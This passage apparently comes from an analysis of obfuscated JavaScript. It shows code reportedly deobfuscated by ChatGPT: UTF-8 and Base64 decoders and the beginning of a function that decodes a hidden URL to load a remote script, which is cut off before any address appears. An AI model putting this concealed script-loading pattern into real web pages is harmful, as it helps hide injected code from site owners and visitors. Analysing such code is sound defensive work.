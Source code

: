 If you paste the above directly into ChatGPT to have it converted into more readable code, you will get the following result:

``` js
// Function to decode a UTF-8 string
function decodeUtf8(input) {
  let output = "";
  let i = 0, r, c1, c2, c3;

  while (i < input.length) {
    r = input.charCodeAt(i);

    if (r < 128) {
      output += String.fromCharCode(r);
      i++;
    } else if (r > 191 && r < 224) {
      c2 = input.charCodeAt(i + 1);
      output += String.fromCharCode(((r & 31) << 6) | (c2 & 63));
      i += 2;
    } else {
      c2 = input.charCodeAt(i + 1);
      c3 = input.charCodeAt(i + 2);
      output += String.fromCharCode(((r & 15) << 12) | ((c2 & 63) << 6) | (c3 & 63));
      i += 3;
    }
  }
  return output;
}

// Function to decode a Base64 string
function decodeBase64(input) {
  const base64Chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";
  let output = "";
  let i = 0, n, r, s, o, u, a;

  input = input.replace(/[^A-Za-z0-9+/=]/g, "");

  while (i < input.length) {
    s = base64Chars.indexOf(input.charAt(i++));
    o = base64Chars.indexOf(input.charAt(i++));
    u = base64Chars.indexOf(input.charAt(i++));
    a = base64Chars.indexOf(input.charAt(i++));
    n = (s << 2) | (o >> 4);
    r = ((o & 15) << 4) | (u >> 2);
    let iChar = ((u & 3) << 6) | a;

    output += String.fromCharCode(n);
    if (u != 64) {
      output += String.fromCharCode(r);
    }
    if (a != 64) {
      output += String.fromCharCode(iChar);
    }
  }

  return decodeUtf8(output);
}

// Function to load a JavaScript file dynamically
function loadScript() {
  (function (encodedUrl, randomString, window, document, randomString2, separator) {
    const decode = decodeBase64;
    const decodedUrl = decodeURIComponent(decode(encodedUrl.replace(new RegExp(separator + separator, "g"), separator)));
```